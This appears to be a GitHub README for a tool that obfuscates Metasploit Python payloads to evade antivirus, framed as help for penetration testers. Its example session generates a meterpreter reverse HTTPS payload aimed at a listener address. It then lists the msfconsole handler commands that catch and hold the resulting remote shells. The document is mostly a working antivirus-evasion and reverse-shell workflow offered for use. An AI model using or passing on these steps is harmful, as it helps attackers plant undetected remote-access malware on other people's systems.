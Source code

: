 # MSF-Undetector
Metasploit python-payload obfuscation, to allow penetration testers bypass Antivirus solutions. Use PyInstaller to create the final, single-file binary.

# Requirements
Linux OS, with metasploit installed. May work as expected on Windows, but not tested for now.

# Example
```
analyser@parrot:~/msfud$ python ./msfud.py
IP Address [LHOST]: 192.168.1.65
Local Port [LPORT]: 443
No platform was selected, choosing Msf::Module::Platform::Python from the payload
No Arch selected, selecting Arch: python from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 51790 bytes

Done! Run msfconsole with the following commands.
--------------------
use exploit/multi/handler
set PAYLOAD python/meterpreter_reverse_https
set LPORT 443
set LHOST 0.0.0.0
SessionExpirationTimeout 0
SessionCommunicationTimeout 0
ExitOnSession false
exploit -j -z
--------------------
Happy Hacking!
analyser@parrot:~/msfud$
```
